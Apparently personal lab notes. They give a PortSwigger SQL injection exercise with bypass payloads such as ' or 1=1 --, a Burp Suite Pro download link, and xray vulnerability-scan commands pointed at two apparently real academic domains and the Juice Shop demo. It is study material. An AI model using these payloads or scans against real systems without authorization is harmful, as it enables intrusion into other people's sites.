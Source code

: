 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
``` SELECT * FROM products WHERE category = 'Gifts' AND released = 1
 ```

 Soln--> SELECT * FROM products WHERE category = ' '  ' --+ AND released = 1

 SELECT * FROM products WHERE category = ' '  or 1=1  ' --+ AND released = 1


https://portswigger-cdn.net/burp/releases/download?product=pro&version=2024.10.3&type=Jar









# XRAY 

./xray_linux_amd64 webscan --url https://bwed.ac.in/ --html-output vuln.html
This provides more comprehensive crawling than --basic-crawler.

Specify Custom Plugins: To focus on specific vulnerability types:

bash
Copy code
./xray_linux_amd64 webscan --plugin sql-injection,xss --url https://biteac.in/ --html-output vuln.html
Log Output: Enable logging for better debugging:

bash
Copy code
./xray_linux_amd64 webscan --basic-crawler https://juice-shop.herokuapp.com/ --html-output vuln.html
